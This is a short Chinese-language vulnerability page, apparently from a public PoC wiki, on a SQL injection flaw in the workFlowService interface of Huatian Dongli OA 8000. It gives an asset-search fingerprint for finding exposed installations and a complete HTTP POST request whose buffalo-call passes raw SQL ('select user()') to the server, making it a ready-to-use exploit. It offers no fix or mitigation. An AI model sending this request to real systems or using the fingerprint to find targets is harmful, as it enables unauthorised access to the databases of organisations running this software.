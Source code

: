# 华天动力OA 8000版 workFlowService SQL注入漏洞

## 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>华天动力OA 8000版 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="华天动力-OA8000"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

发送请求包验证漏洞

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](/assets/PeiQi-Wiki/img/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)

